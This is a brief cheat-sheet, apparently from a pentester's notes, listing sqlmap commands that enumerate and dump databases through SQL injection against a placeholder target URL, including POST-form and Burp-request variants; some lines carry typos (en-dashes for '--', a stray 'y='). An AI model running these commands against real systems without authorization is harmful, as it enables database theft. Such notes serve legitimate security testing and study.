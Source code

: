 # sqlmap

1. Automated sql injection and database takeover tool.
2. Usage:
   1. python sqlmap.py -u "http://www.target.com/vuln.php?id=1" \[--dbs --tables --columns] (To Enumerate database or Tables or Columns)
   2. python sqlmap.py -u "http://www.target.com/vuln.php?id=1" \[-D dbname -T y=tblname -C colname] --dump (When you know DB name, table name or column name and dump the data)
   3. python sqlmap -u "http://www.target.com/vuln.php?id=1" –method "POST" –data "postformdata" -D dbname -T tblname –dump
   4. python sqlmap.py -r request.txt \[--dbs --tables --columns] (If you hav e saved request from burp)
